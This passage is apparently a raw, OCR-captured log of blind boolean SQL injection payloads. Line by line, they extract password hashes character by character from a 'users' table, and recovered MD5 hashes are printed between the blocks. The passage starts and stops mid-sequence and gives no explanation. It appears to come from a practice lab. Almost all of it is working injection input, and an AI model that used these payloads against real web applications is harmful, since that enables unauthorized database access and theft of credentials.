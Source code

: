 1' and ascii(substr((select password from users limit 1 offset 2),24))=102#
1' and ascii(substr((select password from users limit 1 offset 2),25))=99#
1' and ascii(substr((select password from users limit 1 offset 2),26))=99#
1' and ascii(substr((select password from users limit 1 offset 2),27))=54#
1' and ascii(substr((select password from users limit 1 offset 2),28))=57#
1' and ascii(substr((select password from users limit 1 offset 2),29))=50#
1' and ascii(substr((select password from users limit 1 offset 2),30))=49#
1' and ascii(substr((select password from users limit 1 offset 2),31))=54#
1' and ascii(substr((select password from users limit 1 offset 2),32))=98#
 
0d107d09f5bbe40cade3de5c71e9e9b7

1' and ascii(substr((select password from users limit 1 offset 3),1))=48#
1' and ascii(substr((select password from users limit 1 offset 3),2))=100#
1' and ascii(substr((select password from users limit 1 offset 3),3))=49#
1' and ascii(substr((select password from users limit 1 offset 3),4))=48#
1' and ascii(substr((select password from users limit 1 offset 3),5))=55#
1' and ascii(substr((select password from users limit 1 offset 3),6))=100#
1' and ascii(substr((select password from users limit 1 offset 3),7))=48#
1' and ascii(substr((select password from users limit 1 offset 3),8))=57#
1' and ascii(substr((select password from users limit 1 offset 3),9))=102#
1' and ascii(substr((select password from users limit 1 offset 3),10))=53#
1' and ascii(substr((select password from users limit 1 offset 3),11))=98#
1' and ascii(substr((select password from users limit 1 offset 3),12))=98#
1' and ascii(substr((select password from users limit 1 offset 3),13))=101#
1' and ascii(substr((select password from users limit 1 offset 3),14))=52#
1' and ascii(substr((select password from users limit 1 offset 3),15))=48#
1' and ascii(substr((select password from users limit 1 offset 3),16))=99#
1' and ascii(substr((select password from users limit 1 offset 3),17))=97#
1' and ascii(substr((select password from users limit 1 offset 3),18))=100#
1' and ascii(substr((select password from users limit 1 offset 3),19))=101#
1' and ascii(substr((select password from users limit 1 offset 3),20))=51#
1' and ascii(substr((select password from users limit 1 offset 3),21))=100#
1' and ascii(substr((select password from users limit 1 offset 3),22))=101#
1' and ascii(substr((select password from users limit 1 offset 3),23))=53#
1' and ascii(substr((select password from users limit 1 offset 3),24))=99#
1' and ascii(substr((select password from users limit 1 offset 3),25))=55#
1' and ascii(substr((select password from users limit 1 offset 3),26))=49#
1' and ascii(substr((select password from users limit 1 offset 3),27))=101#
1' and ascii(substr((select password from users limit 1 offset 3),28))=57#
1' and ascii(substr((select password from users limit 1 offset 3),29))=101#
1' and ascii(substr((select password from users limit 1 offset 3),30))=57#
1' and ascii(substr((select password from users limit 1 offset 3),31))=98#
1' and ascii(substr((select password from users limit 1 offset 3),32))=55#

5f4dcc3b5aa765d61d8327deb882cf99

1' and ascii(substr((select password from users limit 1 offset 4),1))=53#
1' and ascii(substr((select password from users limit 1 offset 4),2))=102#
1' and ascii(substr((select password from users limit 1 offset 4),3))=52#
1' and ascii(substr((select password from users limit 1 offset 4),4))=100#
1' and ascii(substr((select password from users limit 1 offset 4),5))=99#
1' and ascii(substr((select password from users limit 1 offset 4),6))=99#
1' and ascii(substr((select password from users limit 1 offset 4),7))=51#
1' and ascii(substr((select password from users limit 1 offset 4),8))=98#
1' and ascii(substr((select password from users limit 1 offset 4),9))=53#
1' and ascii(substr((select password from users limit 1 offset 4),10))=97#
1' and ascii(substr((select password from users limit 1 offset 4),11))=97#
1' and ascii(substr((select password from users limit 1 offset 4),12))=55#
1' and ascii(substr((select password from users limit 1 offset 4),13))=54#
1' and ascii(substr((select password from users limit 1 offset 4),14))=53#
1' and ascii(substr((select password from users limit 1 offset 4),15))=100#
1' and ascii(substr((select password from users limit 1 offset 4),16))=54#
1' and ascii(substr((select password from users limit 1 offset 4),17))=49#
1' and ascii(substr((select password from users limit 1 offset 4),18))=100#